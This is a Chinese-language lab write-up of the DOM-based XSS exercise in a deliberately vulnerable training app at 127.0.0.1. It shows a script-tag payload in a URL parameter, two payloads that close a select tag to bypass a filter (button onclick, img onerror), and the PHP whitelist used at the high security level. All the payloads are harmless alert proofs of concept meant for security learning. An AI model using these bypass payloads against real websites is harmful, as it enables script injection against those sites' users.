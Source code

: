 



## XSS (DOM)

### Security Low

选择的English的时候可以发现它的链接在改变，所以直接将English更改为

```
http://127.0.0.1/vulnerabilities/xss_d/?default=<script>alert('xss');</script>
```

就完成了本次实验

可以看到程序将js恶意脚本插进了dom树中

![image-20250111192839179](../../_media/image-20250111192839179.png)



### Security Medium

观察源码可以发现它对`<script` 进行了检验，所以选择其他姿势进行绕过

然后观察发现，需要先将`select`标签进行闭合，不然img和button都无法起作用。

故最终的部分payload如下：

```
</select><button onclick=alert(1) >xss</button>
```

```
</select><img src=1 onerror=alert(/xss/)>
```



### Security High

可以看到源码做出了进一步的白名单化访问限制

```php
switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
```
